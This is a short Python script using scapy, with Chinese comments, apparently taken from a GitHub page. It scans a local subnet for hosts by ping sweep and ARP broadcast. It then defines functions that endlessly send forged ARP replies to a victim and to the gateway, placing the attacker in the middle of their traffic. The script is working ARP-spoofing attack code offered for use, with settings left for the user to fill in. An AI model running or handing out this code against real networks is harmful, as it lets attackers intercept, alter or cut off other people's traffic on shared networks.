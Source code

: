 ```
from scapy.all import *
import os
import threading

# 基本信息，自行修改
interface='WLAN' # 默认网卡

gatway='192.168.1.1' # 默认网关

local_ip='192.168.1.5' # 本地ip

local_mac=get_if_hwaddr(interface)

# 这是用ping命令完成的主机扫描，还是更推荐底下那个
def scan_ip(): 
    ip_exist=[]
    for i in range(1,255):
        i=str(i)
        # 修改为主机网段
        a=os.popen('ping -w 10 -n 1 192.168.1.'+i)

        if 'TTL=' in a.read():
            ip_exist.append('192.168.1.'+i)
    print('[+]scanning success ,here is the ip >>')
    print(ip_exist)


# 欲扫描c段
ipscan='192.168.1.1/24'


# 这是从网上嫖来的mac扫描的方法，是通过广播arp请求得到子网内的响应主机的ip和mac地址
# 效率也比用ping命令高得多。
# 需根据情况修改上面的欲扫描c段
def mac_scan(ipscan):
    try:              
        ans,unans = srp(Ether(dst="FF:FF:FF:FF:FF:FF")/ARP(pdst=ipscan),timeout=2,verbose=False)
    except Exception as e:
        print(str(e))
    else:
        for snd,rcv in ans:
            list_mac=rcv.sprintf("%Ether.src% - %ARP.psrc%")
            print(list_mac)


#向受害者不断发送arp回复包告诉他们攻击方为网关
def targetarp_attack(target_ip,local_mac,gatway):
    target_mac=getmacbyip(target_ip)
#                  受害者mac       攻击方mac                攻击方mac        网关ip       受害者mac       受害者ip
    pack=Ether(dst=target_mac,src=local_mac)/ARP(op=2,hwsrc=local_mac,psrc=gatway,hwdst=target_mac,pdst=target_ip)
    while True:
        sendp(pack,inter=2,count=1,iface=interface)


#向网关不断发送arp回复包告诉他们攻击方为受害方
def gatwayarp_attack(target_ip,local_mac,gatway):
    gatway_mac=getmacbyip(gatway)
#                  网关mac        攻击方mac                 攻击方mac      受害者ip     网关mac          网关ip 
    pack=Ether(dst=gatway_mac,src=local_mac)/ARP(op=2,hwsrc=local_mac,psrc=target_ip,hwdst=gatway_mac,pdst=gatway)
    while True:
        sendp(pack,inter=2,count=1,iface=interface)
```